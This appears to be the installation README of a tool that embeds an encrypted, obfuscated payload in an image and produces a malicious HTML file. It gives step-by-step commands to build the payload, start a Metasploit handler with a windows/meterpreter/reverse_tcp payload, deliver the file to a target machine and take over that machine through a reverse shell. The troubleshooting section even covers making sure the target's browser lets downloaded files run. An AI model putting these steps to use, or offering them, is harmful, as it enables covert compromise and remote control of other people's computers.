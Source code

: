 Installation Instructions
=========================

This file provides step-by-step instructions on how to install and set up the embedded image payload module project.

Prerequisites
-------------

Before proceeding with the installation, ensure that you have the following prerequisites installed on your system:

- Ruby programming language (version 2.7 or higher)
- Metasploit framework

If you don't have Ruby installed, you can download and install it from the [Official Ruby](https://www.ruby-lang.org/) website.

To install the Metasploit framework, follow the installation instructions specific to your operating system. You can find the installation guide on the [Official Metasploit](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html) website.

Installation Steps
------------------

1. Clone the repository:

   ```bash
   git clone https://github.com/webmaster-exit-1/Custom-Image-Payload-Embedder.git
   ```

2. Navigate to the project directory:

   ```bash
   cd Custom-Image-Payload-Embedder
   ```

3. Install the required dependencies using Bundler:

   ```bash
   bundle install
   ```

   This command will install all the necessary Ruby gems specified in the project's Gemfile.

4. Customize the module and payload (optional):
   - Open the `module.rb` file in a text editor and modify the module options, such as the image path and output path, according to your requirements.
   - Open the `payload.rb` file in a text editor and customize the payload generation and obfuscation techniques as needed.

5. Generate the payload and embed it into the image:

   ```rb
   ruby exploit.rb
   ```

   This command will execute the `exploit.rb` script, which will generate the payload, encrypt it, embed it into the specified image file, and generate a malicious HTML file.

6. Set up the Metasploit handler:
   - Open a new terminal window and start the Metasploit console:

     ```bash
     msfconsole
     ```

   - Select the `exploit/multi/handler` module:

     ```rb
     use exploit/multi/handler
     ```

   - Set the payload to match the one used in the malicious HTML file:

     ```rb
     set PAYLOAD windows/meterpreter/reverse_tcp
     ```

   - Set the `LHOST` and `LPORT` options to specify the IP address and port for the reverse shell connection:

     ```rb
     set LHOST YOUR_IP
     set LPORT 4444
     ```

   - Start the handler:

     ```rb
     run
     ```

   Replace `YOUR_IP` with the actual IP address of your machine where you want to receive the reverse shell connection.

7. Transfer the generated malicious HTML file to the target machine and open it in a web browser.

8. Once the payload is executed, a reverse shell connection will be established, and you can interact with the target machine using Meterpreter commands.

Troubleshooting
---------------

If you encounter any issues during the installation or usage of the embedded image payload module, consider the following troubleshooting steps:

- Ensure that you have the correct version of Ruby installed (version 2.7 or higher).
- Verify that you have installed the Metasploit framework correctly and that it is accessible from the command line.
- Double-check the module options in the `module.rb` file and ensure that the specified paths and settings are correct.
- Ensure that the target machine has a web browser capable of executing JavaScript and that it allows running downloaded files.
- Check the Metasploit console for any error messages or warnings that may indicate issues with the payload or handler setup.
